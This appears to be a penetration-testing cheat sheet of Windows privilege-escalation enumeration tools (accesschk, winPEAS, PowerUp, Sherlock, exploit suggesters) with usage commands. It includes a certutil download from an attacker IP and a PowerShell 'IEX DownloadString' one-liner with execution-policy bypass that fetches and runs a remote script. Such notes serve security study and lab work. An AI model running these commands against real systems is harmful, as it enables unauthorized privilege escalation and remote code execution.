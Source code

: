 
##  EXE Tools (Run as .exe files)
### accesschk.exe
AccessChk is an old but still trustworthy tool **for checking user access control rights.**

You can use it to check whether a user or group has access to files, directories, services, and registry keys.
The downside is more recent versions of the program spawn a GUI “accept EULA” popup window. When using the command line, we have to use an older version which still has an **/accepteula** command line option.
```
https://xor.cat/assets/other/Accesschk.zip
```
**Always do this first**
```
accesschk.exe /accepteula (always do this first!!!!!)
```
**Find all weak file permission per drive.**
```
accesschk.exe -uwqs Users c:\*.*

accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
**Find all weak folder permission per drive**
```
accesschk.exe -uwdqs Users c:\

accesschk.exe -uwdqs "Authenticated Users" c:\
```

###  winPEAS.exe
- **Job:** Checks for many weaknesses: services, passwords, file access, registry, etc.
- **Download:** https://github.com/carlospolop/PEASS-ng/releases
- **Download:**  https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
- **Run it:**
```
winPEAS.exe
```
Before running, we need to add a registry key and then reopen the command prompt:
```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```
Run all checks while avoiding time-consuming searches:
```
.\winPEASany.exe quiet cmd fast
```
Run specific check categories:
```
.\winPEASany.exe quiet cmd systeminfo
```
###  Seatbelt.exe
- **Job:** Shows security info like saved passwords, browser history, installed apps.
- **Source:** https://github.com/GhostPack/Seatbelt
- ⚠️ You must compile it  before use.
### ✅ SharpUp.exe
- **Job:** Looks for ways to become admin, like bad file or service permissions.
- **Source:** https://github.com/GhostPack/SharpUp
- ⚠️ Needs to be compiled.
### ✅ Watson.exe
- **Job:** Finds known Windows bugs (CVEs) that work on this system.
- **Source:** https://github.com/rasta-mouse/Watson
- ⚠️ Compile before use.

---
#  PowerShell Scripts (.ps1 files)

###  PowerUp.ps1
- **Job:** Checks services, registry, DLLs, paths, etc. for privilege issues.
- **Download (local):** certutil -urlcache -split -f "http://10.17.68.184:8000/PowerUp.ps1" PowerUp.ps1
- **Download:** https://github.com/PowerShellMafia/PowerSploit
- **Download:** https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps
- **Use it:**
```
CMD> powershell -exec bypass

PS> . .\PowerUp.ps1

PS> Invoke-AllChecks

# Run the Invoke-AllChecks function to start checking for common privilege escalation misconfigurations.
```
or
```
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```

### Sherlock.ps1
- **Job:** Finds missing Windows updates that attackers can use.
- **Download:** https://github.com/rasta-mouse/Sherlock
- **Use it:**

```
Import-Module .\Sherlock.ps1
Find-AllVulnerabilities
```

### ✅ JAWS-enum.ps1

- **Job:** Checks logs, users, firewall, AV, and more.
- **Download:** https://github.com/411Hall/JAWS
- **Use it:**
```
.\JAWS-enum.ps1
```

---
#  Python Tools (Run on your system)

###  windows-exploit-suggester.py
- **Job:** Shows possible Windows bugs based on system info.
- **Download:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- **Steps:**
```
systeminfo > sysinfo.txt          # Get system info from target
./windows-exploit-suggester.py -i sysinfo.txt
```

###  Windows Exploit Suggester - NG (WES-NG)
- **Job:** Updated version of the above tool.
- **Download:** https://github.com/bitsadmin/wesng
- **Steps:**
```
./wes.py --update                 # Update CVE list
systeminfo > sysinfo.txt          # Get system info
./wes.py sysinfo.txt              # Get exploit suggestions
```

###  Metasploit Exploit Suggester

- **Job:** Shows escalation options in Meterpreter session.
- **Module: `post/multi/recon/local_exploit_suggester`**
